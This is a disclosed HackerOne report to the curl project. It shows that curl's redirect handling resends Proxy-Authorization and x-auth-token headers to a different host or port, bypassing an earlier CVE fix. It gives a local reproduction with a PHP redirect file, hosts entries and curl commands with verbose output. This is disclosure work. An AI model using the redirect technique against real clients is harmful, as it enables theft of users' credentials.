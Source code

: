 # Credential leak on redirect

## Report Details
- **Report ID**: 1568175
- **URL**: https://hackerone.com/reports/1568175
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-05-13T11:31:21.548Z
- **Disclosed**: 2022-05-14T16:06:25.527Z

## Reporter
- **Username**: iylz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
[add summary of the vulnerability]

Curl can be coaxed to leak user credentials to third-party host by issuing HTTP redirect , like the Proxy-Authorization 、x-auth-token header. It is a bypass of fix https://hackerone.com/reports/1547048 , CVE-2022-27776 .

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. Create a 302.php file, such as:
```
<?php
header("Location: http://a.com:8000");
?>
```
Add the 2 record in the /etc/hosts file:  
```
127.0.0.1 a.com
127.0.0.1 b.com
```
  2. curl -H "Proxy-Authorization: secrettoken" http://b.com/302.php -vv -L 
The redirect will be followed, and the confidential headers sent over insecure HTTP to the specified port:
```
# curl -H "Proxy-Authorization: secrettoken" http://b.com/302.php -vv -L
*   Trying 127.0.0.1:80...
* Connected to b.com (127.0.0.1) port 80 (#0)
> GET /302.php HTTP/1.1
> Host: b.com
> User-Agent: curl/7.83.1
> Accept: */*
> Proxy-Authorization: secrettoken
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Fri, 13 May 2022 11:22:06 GMT
< Server: Apache/2.4.6 (CentOS) PHP/5.4.16
< X-Powered-By: PHP/5.4.16
< Location: http://a.com:8000
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host b.com left intact
* Clear auth, redirects to port from 80 to 8000
* Issue another request to this URL: 'http://a.com:8000/'
*   Trying 127.0.0.1:8000...
* Connected to a.com (127.0.0.1) port 8000 (#1)
> GET / HTTP/1.1
> Host: a.com:8000
> User-Agent: curl/7.83.1
> Accept: */*
> Proxy-Authorization: secrettoken
>
```
  3.  curl -H "x-auth-token: secrettoken" http://b.com/302.php -vv -L 
```
# curl -H "x-auth-token: secrettoken" http://b.com/302.php -vv -L
*   Trying 127.0.0.1:80...
* Connected to b.com (127.0.0.1) port 80 (#0)
> GET /302.php HTTP/1.1
> Host: b.com
> User-Agent: curl/7.83.1
> Accept: */*
> x-auth-token: secrettoken
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Fri, 13 May 2022 11:24:15 GMT
< Server: Apache/2.4.6 (CentOS) PHP/5.4.16
< X-Powered-By: PHP/5.4.16
< Location: http://a.com:8000
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host b.com left intact
* Clear auth, redirects to port from 80 to 8000
* Issue another request to this URL: 'http://a.com:8000/'
*   Trying 127.0.0.1:8000...
* Connected to a.com (127.0.0.1) port 8000 (#1)
> GET / HTTP/1.1
> Host: a.com:8000
> User-Agent: curl/7.83.1
> Accept: */*
> x-auth-token: secrettoken
```

The reason for the problem is that curl's filtering of authentication header header is incomplete. The Proxy-Authorization and x-auth-token headers are not considered, only restrict the delivery of Cookies and Authorization.

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]
https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Proxy-Authorization

## Impact

Leak of Proxy-Authorization and x-auth-token headers.

## Attachments
No attachments
